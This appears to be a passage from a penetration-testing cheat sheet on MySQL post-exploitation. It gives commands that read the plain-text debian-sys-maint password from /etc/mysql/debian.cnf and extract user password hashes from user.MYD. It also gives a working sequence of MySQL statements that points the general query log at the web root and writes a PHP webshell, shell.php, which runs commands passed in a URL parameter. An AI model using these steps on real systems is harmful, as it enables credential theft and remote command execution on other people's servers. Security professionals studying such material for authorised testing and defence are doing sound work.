 ### Extracting MySQL credentials from files

Inside _/etc/mysql/debian.cnf_ you can find the **plain-text password** of the user **debian-sys-maint**

```bash
cat /etc/mysql/debian.cnf
```

You can **use these credentials to login in the mysql database**.

Inside the file: _/var/lib/mysql/mysql/user.MYD_ you can find **all the hashes of the MySQL users** (the ones that you can extract from mysql.user inside the database)_._

You can extract them doing:

```bash
grep -oaE "[-_\.\*a-Z0-9]{3,}" /var/lib/mysql/mysql/user.MYD | grep -v "mysql_native_password"
```

### Enabling logging

You can enable logging of mysql queries inside `/etc/mysql/my.cnf` uncommenting the following lines:

![](<../.gitbook/assets/image (277).png>)

### Logging to webshell

When you obtain a root account, You can enable **general_log** to logging your command out to file. For example, the php webshell.

```mysql
# Check if the current environment is enabled or not.
SHOW VARIABLES LIKE '%general_log%'

# Enable logging
SET GLOBAL general_log = "ON"

# Set the logging output file
SET GLOBAL general_log_file="/var/www/html/shell.php"

# Then all the commands you type will be recorded in the log file.
SELECT '<?php system($_GET["cmd"]);?>';

# disable logging
set global general_log = off;

```
